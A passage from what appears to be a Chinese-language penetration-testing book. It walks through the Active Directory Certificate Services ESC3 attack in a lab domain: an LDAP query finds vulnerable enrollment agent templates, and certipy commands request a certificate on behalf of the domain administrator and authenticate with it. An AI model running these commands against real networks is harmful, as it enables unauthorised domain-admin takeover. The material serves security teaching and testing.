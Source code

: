 图 8.21 – 使用 LDAP 查询查找证书请求代理模板

第二个条件允许用户使用第一个条件中的证书，代表其他用户请求证书以进行身份验证。对于此条件，必须满足以下配置参数：

+   企业 CA 授予低权限用户注册权限

+   管理员批准已禁用

+   证书模板定义了启用身份验证的 EKU

+   CA 上未实现注册代理限制

+   模板架构版本为 1 或更大，并指定`Application Policy`发布要求作为**证书请求` `代理** EKU

听起来有点复杂，但以下 LDAP 查询可以明确要求：

```
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=1)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=essos,DC=local'
```

结果是，我们找到了 ESC3 易受攻击模板：

![图 8.22 – 使用 LDAP 查询查找 ESC3 易受攻击模板](img/B18964_08_22.jpg)

图 8.22 – 使用 LDAP 查询查找 ESC3 易受攻击模板

攻击将分为两步 – 为代理请求证书，然后使用该证书代表域管理员请求证书。以下命令将实现所需结果：

```
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC3-CRA
certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -dc-ip 192.168.56.12 -target 192.168.56.23 -ca 'ESSOS-CA' -template ESC3 -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

命令执行的结果如以下截图所示：

